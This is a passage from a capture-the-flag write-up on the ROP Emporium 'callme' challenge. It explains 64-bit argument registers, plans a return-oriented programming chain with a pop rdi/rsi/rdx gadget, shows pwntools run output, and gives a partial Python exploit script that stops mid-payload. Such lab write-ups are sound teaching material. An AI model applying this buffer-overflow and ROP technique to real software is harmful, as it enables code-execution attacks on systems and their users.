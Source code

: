 Also in 64 bit, the parameters passed to functions are moved to edi/esi/edx registers rather than being called off the stack in 32 bit. This is important to note as when we do our ROP, we need to inject our parameters onto the stack, and get them onto the correct parameters.

The flow of our ROP should be like this:

- Padding 40 bytes to overflow buffer
- return address to our pop rdi rsi rdx gadget (the next 3 values on the stack will replace them accordingly)
- the 3 values in order (`0xdeadbeef`, `0xcafebabe`, `0xd00df00d`)
- callme_one function
- repeat the pop gadgets and values injection for callme2 and 3 ()

With an initial test script, we can actually get the callme_one function to return a correct message.

```python
wayell@ubuntu:~/Desktop/ROPEmporium/3.callme$ python3 solve.py 
[*] '/home/wayell/Desktop/ROPEmporium/3.callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/wayell/Desktop/ROPEmporium/3.callme/callme': pid 45808
<generator object ELF.search at 0x7f64111d0190>
/home/wayell/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 Thank you!
callme_one() called correctly
```

```python
from pwn import *

# Set up pwntools to work with this binary
elf = context.binary = ELF('callme')
p = process()

# Number of padding bytes (to offset RIP)
padding = 40

# Function parameters
para1 = 0xDEADBEEFDEADBEEF
para2 = 0xCAFEBABECAFEBABE
para3 = 0xD00DF00DD00DF00D

# # Load ROP gadgets
# rop = ROP(elf)
# rop.system(next(elf.search(b'/bin/sh')))

# # Print the ROP chain
# pprint(rop.gadgets)
# print(rop.dump())
print(elf.search(asm('ret')))

# Crafting payload, contains x nops of padding, ret, rop chain
payload = flat(
	asm('nop') * padding,
	next(elf.search(asm('ret'))),
	p64(0x000000000040093c), # pop rdi, rsi, rdx
	p64(para1),
	p64(para2),
```